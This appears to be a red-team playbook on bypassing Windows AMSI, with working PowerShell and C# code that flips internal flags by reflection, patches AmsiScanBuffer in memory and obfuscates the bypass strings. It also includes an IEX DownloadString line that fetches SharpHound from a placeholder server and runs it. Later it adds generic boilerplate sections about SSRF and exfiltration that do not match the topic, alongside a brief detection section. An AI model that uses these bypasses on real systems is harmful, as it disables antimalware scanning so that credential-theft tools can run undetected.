

# AMSI Bypass

## When to Use
- When operating on a Windows target during a Red Team engagement where PowerShell or .NET memory execution is required, but an EDR/AV is actively inspecting script contents via AMSI.
- To execute tools like Mimikatz, Rubeus, SharpHound, or BloodHound directly in memory without dropping detectable binaries to disk.
- When standard obfuscation fails because AMSI inspects content AFTER deobfuscation at the interpreter level.
- When needing to load custom .NET assemblies via `Assembly.Load()` which AMSI intercepts.

**When NOT to use**: If you need to bypass on-disk AV signature detection, use `av-edr-evasion-techniques`. For process injection after bypass, use `process-hollowing`.

## Prerequisites
- Administrative or user-level access on a Windows target (AMSI bypass doesn't always require admin)
- PowerShell 5.1+ or PowerShell Core on the target
- Understanding of x86/x64 calling conventions for patching techniques
- For debugging: x64dbg or WinDbg for verifying patches

## Workflow

### Phase 1: Understanding AMSI Architecture

```text
# Concept: AMSI (Antimalware Scan Interface) is a Windows API that allows applications
# to request AV scans of arbitrary content BEFORE it executes. 

# The scan flow:
# 1. User types PowerShell command → PowerShell.exe receives it
# 2. PowerShell calls AmsiScanBuffer() or AmsiScanString() in amsi.dll
# 3. amsi.dll forwards the content to registered AV providers (e.g., Defender)
# 4. AV returns AMSI_RESULT (Clean, Detected, etc.)
# 5. If Detected → PowerShell blocks execution with an error

# Key DLL functions in amsi.dll:
# - AmsiInitialize()     → Creates AMSI context for the application
# - AmsiOpenSession()    → Opens a scan session
# - AmsiScanBuffer()     → Scans raw byte buffer (PRIMARY TARGET)
# - AmsiScanString()     → Scans string content
# - AmsiCloseSession()   → Closes session
# - AmsiUninitialize()   → Destroys AMSI context

# Attack surface: If we corrupt AmsiScanBuffer() or AmsiOpenSession(),
# ALL subsequent scans return "clean" regardless of actual content.
```

### Phase 2: Reflection-Based Bypass (No Admin Required)

```powershell
# Technique 1: amsiInitFailed flag manipulation
# Concept: PowerShell internally tracks AMSI initialization status.
# If we set the internal flag 'amsiInitFailed' to True, PowerShell
# skips ALL AMSI scans entirely because it thinks AMSI never loaded.

# Step 1: Get the internal type using Reflection
$AmsiUtils = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')

# Step 2: Access the private static field 'amsiInitFailed'
$AmsiInitFailed = $AmsiUtils.GetField('amsiInitFailed', 'NonPublic,Static')

# Step 3: Set it to True — AMSI now thinks it failed to initialize
$AmsiInitFailed.SetValue($null, $true)

# Verify: This command would normally be blocked by AMSI
Invoke-Expression 'Write-Host "AMSI is Bypassed — loading offensive tools..."'

# Limitation: This specific string is now SIGNATURED by Defender.
# You MUST obfuscate it (see Phase 3).
```

```powershell
# Technique 2: Patching amsiContext to null
# Concept: Corrupt the AMSI context pointer so scans have no valid context.

$AmsiUtils = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
$AmsiContext = $AmsiUtils.GetField('amsiContext', 'NonPublic,Static')

# Setting context to IntPtr.Zero causes AmsiScanBuffer to fail gracefully
[IntPtr]$ContextPointer = $AmsiContext.GetValue($null)
[Runtime.InteropServices.Marshal]::WriteInt32($ContextPointer, 0x80070057) # E_INVALIDARG
```

### Phase 3: Memory Patching — AmsiScanBuffer (Admin Preferred)

```powershell
# Technique 3: Direct memory patching of AmsiScanBuffer
# Concept: Overwrite the first bytes of AmsiScanBuffer() with instructions
# that immediately return AMSI_RESULT_CLEAN (0x00000000) or E_INVALIDARG.

# The patch: mov eax, 0x80070057; ret (return E_INVALIDARG immediately)
# Bytes: B8 57 00 07 80 C3

# Step 1: Get handle to amsi.dll (already loaded in PowerShell process)
$Kernel32 = Add-Type -MemberDefinition @'
[DllImport("kernel32.dll")]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32.dll")]
public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32.dll")]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
'@ -Name 'Kernel32' -Namespace 'Win32' -PassThru

# Step 2: Locate AmsiScanBuffer address
$AmsiDll = $Kernel32::LoadLibrary("amsi.dll")
$AmsiScanBuffer = $Kernel32::GetProcAddress($AmsiDll, "AmsiScanBuffer")

# Step 3: Change memory protection to PAGE_EXECUTE_READWRITE
$OldProtection = 0
$Kernel32::VirtualProtect($AmsiScanBuffer, [UIntPtr]6, 0x40, [ref]$OldProtection)

# Step 4: Write the patch bytes
$Patch = [Byte[]](0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[Runtime.InteropServices.Marshal]::Copy($Patch, 0, $AmsiScanBuffer, 6)

# Step 5: Restore original memory protection
$Kernel32::VirtualProtect($AmsiScanBuffer, [UIntPtr]6, $OldProtection, [ref]$OldProtection)

# AmsiScanBuffer now immediately returns E_INVALIDARG for ALL scans.
# Load Mimikatz, Rubeus, SharpHound, etc. freely.
```

### Phase 4: Obfuscation to Evade AMSI Signatures

```powershell
# Problem: Microsoft signatures the bypass code itself!
# "AmsiUtils", "amsiInitFailed", "AmsiScanBuffer" are all flagged strings.

# Technique 1: String concatenation
$TypeName = 'Sys' + 'tem.Man' + 'agement.Au' + 'tomation.Am' + 'siUt' + 'ils'
$FieldName = 'am' + 'siIn' + 'itFa' + 'iled'
$Ref = [Ref].Assembly.GetType($TypeName)
$Field = $Ref.GetField($FieldName, 'NonPublic,Static')
$Field.SetValue($null, $true)

# Technique 2: Base64 encoding
$EncodedType = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U3lzdGVtLk1hbmFnZW1lbnQuQXV0b21hdGlvbi5BbXNpVXRpbHM='))
$Ref = [Ref].Assembly.GetType($EncodedType)

# Technique 3: XOR-based string obfuscation
function Decode-XOR {
    param([byte[]]$Encoded, [byte]$Key)
    $Decoded = @()
    foreach ($byte in $Encoded) { $Decoded += ($byte -bxor $Key) }
    [Text.Encoding]::ASCII.GetString($Decoded)
}

# Technique 4: Reflection via runtime type resolution
[Reflection.Assembly]::LoadWithPartialName('System.Core') | Out-Null
# Use runtime method invocation to find and patch the target

# Technique 5: Variable substitution with random names
$a = [Ref].Assembly.GetType(('System.Manage'+'ment.Autom'+'ation.tic'+'Utils').Replace('tic','Ams'+'i'))
$b = $a.GetField(('am'+'siSession'), ('NonPub'+'lic,Stat'+'ic'))
```

### Phase 5: CLR / .NET Assembly-Level AMSI Bypass

```csharp
// Concept: When loading .NET assemblies via Assembly.Load(), CLR hooks into AMSI.
// We must patch AMSI BEFORE loading the assembly.

// C# code to compile as .NET assembly for in-memory loading:
using System;
using System.Runtime.InteropServices;

public class AmsiBypass {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, 
        uint flNewProtect, out uint lpflOldProtect);

    public static void Patch() {
        IntPtr amsiDll = LoadLibrary("amsi.dll");
        IntPtr amsiScanBuffer = GetProcAddress(amsiDll, "AmsiScanBuffer");
        
        uint oldProtect = 0;
        VirtualProtect(amsiScanBuffer, (UIntPtr)6, 0x40, out oldProtect);
        
        // mov eax, 0x80070057; ret
        byte[] patch = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
        Marshal.Copy(patch, 0, amsiScanBuffer, 6);
        
        VirtualProtect(amsiScanBuffer, (UIntPtr)6, oldProtect, out oldProtect);
    }
}
```

### Phase 6: Validating the Bypass

```powershell
# Test 1: EICAR string (should be blocked by any AV)
Invoke-Expression 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*'
# If AMSI is bypassed: No error thrown
# If AMSI is active: "This script contains malicious content" error

# Test 2: Known-bad Mimikatz string
Invoke-Expression '"Invoke-Mimikatz"'
# Just the string, not execution — tests if AMSI detects the keyword

# Test 3: Check AMSI provider registration
Get-ChildItem "HKLM:\SOFTWARE\Microsoft\AMSI\Providers"
# Lists registered AMSI providers (Defender, third-party AV)

# Test 4: Load actual offensive tool
IEX (New-Object Net.Webclient).DownloadString('http://YOUR_SERVER/SharpHound.ps1')
Invoke-BloodHound -CollectionMethod All
```

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense

### Detection Methods
- **ETW (Event Tracing for Windows)**: Even if AMSI is bypassed, ETW providers can still capture PowerShell activity. Monitor `Microsoft-Windows-PowerShell/Operational` and `Microsoft-Antimalware-Scan-Interface` ETW providers.
- **Sysmon Event ID 7 (Image Loaded)**: Monitor for `amsi.dll` being loaded into unexpected processes. Alert on processes loading amsi.dll followed by immediate suspicious API calls.
- **Sysmon Event ID 10 (Process Access)**: Monitor for processes accessing `amsi.dll` memory regions with `PAGE_EXECUTE_READWRITE` permissions.
- **Script Block Logging (Event ID 4104)**: Even with AMSI bypassed, PowerShell Script Block Logging captures the actual deobfuscated content executed. This is the MOST reliable detection source.
- **Memory Integrity Scanning**: EDRs that perform periodic memory scanning of `amsi.dll` can detect if the `.text` section has been patched by comparing against the known-good hash.

### Prevention
- **PowerShell Constrained Language Mode (CLM)**: Prevents the use of .NET Reflection and Add-Type, blocking most reflection-based AMSI bypasses.
- **Windows Defender Credential Guard**: Protects sensitive APIs and data from usermode patching.
- **Hypervisor-Protected Code Integrity (HVCI)**: Uses VBS (Virtualization Based Security) to prevent unauthorized kernel and driver code modifications.
- **AppLocker/WDAC Policies**: Restrict PowerShell to ConstrainedLanguage mode for non-admin users.

## Key Concepts
| Concept | Description |
|---------|-------------|
| AMSI | Antimalware Scan Interface — Windows API allowing apps to submit content for AV scanning before execution. Hooks into PowerShell, VBScript, JScript, .NET, and WMI |
| AmsiScanBuffer | The core amsi.dll function that accepts byte buffers for scanning. Primary target for memory patching bypasses |
| Reflection | .NET feature allowing runtime inspection and modification of types, fields, and methods. Used to access internal PowerShell state like `amsiInitFailed` |
| Memory Patching | Directly modifying executable code in memory by changing page protections (VirtualProtect) and writing new bytes over function prologues |
| ETW | Event Tracing for Windows — kernel-level telemetry that operates independently of AMSI, making it harder to bypass |
| CLM | Constrained Language Mode — PowerShell security feature that restricts .NET access, blocking most AMSI bypass techniques |


## Output Format
```
Amsi Bypass — Assessment Report
============================================================
Target: [Target identifier]
Assessor: [Operator name]
Date: [Assessment date]
Scope: [Authorized scope]
MITRE ATT&CK: [Relevant technique IDs]

Findings Summary:
  [Finding 1]: [Severity] — [Brief description]
  [Finding 2]: [Severity] — [Brief description]

Detailed Results:
  Phase 1: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

  Phase 2: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

Risk Rating: [Critical/High/Medium/Low/Informational]
Recommendations:
  1. [Immediate remediation step]
  2. [Long-term hardening measure]
  3. [Monitoring/detection improvement]
```

## 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)
> The Architect Mindset identifies misconfigurations spanning multiple domains.
- Chain info-leaks with SSRF/RCE.
- Maintain absolute OPSEC during active engagement.

## 🏁 Execution Phase (Steps to Reproduce)
1. Perform target reconnaissance.
2. Formulate payload based on endpoints.
3. Execute the exploit and capture exfiltrated data.

**Severity Profile:** High (CVSS: 8.5)


## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.
- Pivot and escalate using chained attack paths.

## References
- CyberArk: [Bypassing AMSI: A comprehensive guide](https://www.cyberark.com/resources/threat-research-blog/amsi-bypass-redux)
- SANS: [Living off the Land and AMSI Bypass](https://www.sans.org/white-papers/39900/)
- Microsoft: [How AMSI helps you defend against malware](https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)
- RastaMouse: [AMSI Bypass Methods Collection](https://rastamouse.me/blog/asb-bypass-pt1/)
- S3cur3Th1sSh1t: [AMSI Bypass PowerShell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
